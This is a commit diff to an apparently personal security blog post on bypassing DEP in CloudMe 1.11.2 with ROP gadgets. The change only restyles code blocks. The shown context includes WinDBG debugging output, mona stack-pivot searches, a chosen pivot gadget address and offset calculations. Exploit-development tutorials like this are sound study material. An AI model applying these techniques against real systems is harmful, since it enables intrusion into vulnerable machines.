

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 900 px high, scrolled down 30276 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
DEP Bypass using ROP chains

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -778,14 +778,14 @@
 
 <p align="justify">As we can see from the execution above, the pattern was found at position 0. Furthermore, the address <b>0x0022d470</b> we've got at the time of crash, appears to be <b>1368</b> bytes away from <b>ESP</b> when hitting the breakpoint.</p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> ? 0022d470 - esp
 Evaluate expression: 1368 = 00000558
-```
+</pre>
 
 <p align="justify">So ideally, we need to find a gadget equivalent to <b>ADD ESP 558 ...POP ...POP ...RETN</b> to pivot precisely to the beginning of the payload. Nevertheless, any gadget with distance above &gt;1368 bytes will suit us. Next, in order to find a suitable stack pivot, we will use mona’s <strong>stackpivot</strong> searching functionality. At this point we will load CloudMe executable in <strong>WinDBG</strong> and then run the following command</p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> !py mona stackpivot -n -o -distance 1368
 Hold on...
 [+] Command used:
@@ -866,11 +866,11 @@
 Done
 
 [+] This mona.py action took 0:17:32.653000
-```
+</pre>
 
 <p align="justify">After a few minutes, mona will generate <b>stackpivot.txt</b> file in its output directory. Here is one gadget that will send us to the beginning of the payload</p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 Stack pivots, minimum distance 1368
 ------------------------------------
 Non-SafeSEH protected pivots :
@@ -879,7 +879,7 @@
 0x6998fb2e : {pivot 1916 / 0x77c} : <strong># ADD ESP,76C # POP EBX # POP ESI # POP EDI #
 POP EBP # RETN</strong> ** [Qt5Network.dll] ** | {PAGE_EXECUTE_WRITECOPY}
 [..snip..]
-```
+</pre>
 
 <p align="justify">
 As said before, we need gadgets equal or above the distance of 1368 bytes. As we see above, we have found a gadget with 1916 bytes distance from the beginning of our payload. Now lets create a python script in order to provide a proof of concept.
@@ -980,19 +980,19 @@
 Now lets put a breakpoint at the address <b>0x6998fb2e</b>
 </p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000\> bp 0x6998fb2e
 *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll -
 0:000\> bl
 0 e 6998fb2e 0001 (0001) 0:**** Qt5Network!ZN9QHostInfo15localDomainNameEv+0x87e
-```
+</pre>
 
 <p align="justify">
 Furthermore, lets observe the crash below. As we see, we are stepping into every instruction after we hit the first breakpoint. Then, when we reach the last gadget, we check the <b>ESP</b> register once again in order to see if we have made the right calculations.
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> g
 Breakpoint 0 hit
 eax=00000000 ebx=00000000 ecx=6998fb2e edx=777071cd esi=00000000 edi=00000000
@@ -1039,7 +1039,7 @@
 0022d6e4 65433165 33654332 43346543 65433565
 0022d6f4 37654336 43386543 66433965 31664330
 0022d704 43326643 66433366 35664334 43366643
-```
+</pre>
 
 <p align="justify">
 As we see, the <b>ESP</b> register points to <b>0x0022d694</b> which contains the pattern <b>35624334</b> (offset <b>0x224</b> from the beginning of the payload) ,which is expected considering we are jumping extra <b>548</b> bytes from the beginning of the payload ( <b>1916 - 1368</b> ).
````
